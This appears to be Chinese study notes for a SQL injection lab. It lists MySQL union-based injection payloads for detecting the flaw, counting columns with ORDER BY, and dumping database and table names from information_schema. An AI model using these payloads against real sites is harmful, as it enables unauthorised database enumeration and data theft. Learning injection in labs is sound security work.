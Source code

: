 ## 
![1](https://image.baidu.com/search/down?tn=download&word=download&ie=utf8&fr=detail&url=https://ws3.sinaimg.cn/large/006Xzox4ly1g0pom0382gj30b40b43yx.jpg)

##### 注释

`--+`
`-- 任意符号`
`%23`  (#ur编码)

##### 判断注入

`1' and 1=1 --+`
`1' and 1=2 --+`

##### 查询字段

`1' order by 1 --+` 正常
`1' order by 4 --+` 报错
`1' order by 3 --+` 正常
字段为3

##### UNION SELECT 联合查询

`-1' union select 1,2,3 --+`
`1' and 1=2 union select 1,2,3 --+`
报错2，3

##### 信息收集

`version()`   #Mysql版本
`user()`      #数据库用户名
`database()`  #数据库名
`@@datadir()` #数据库路径

##### 查询所有数据库

`-1'  union select 1, 2, group_concat(schema_name) from information_schema.schemata --+`

##### 查询当前数据库的所有表名

`-1'  union select 1, 2, group_concat(table_name) from information_schema.tables where table_schema=database() --+`
`-1'  union select 1, 2, group_concat(table_name) from information_schema.tables where table_schema='security' --+`
`-1'  union select 1, 2, group_concat(table_name) from information_schema.tables where table_schema=0x7365637572697479 --+ hex编码 前面加0x`














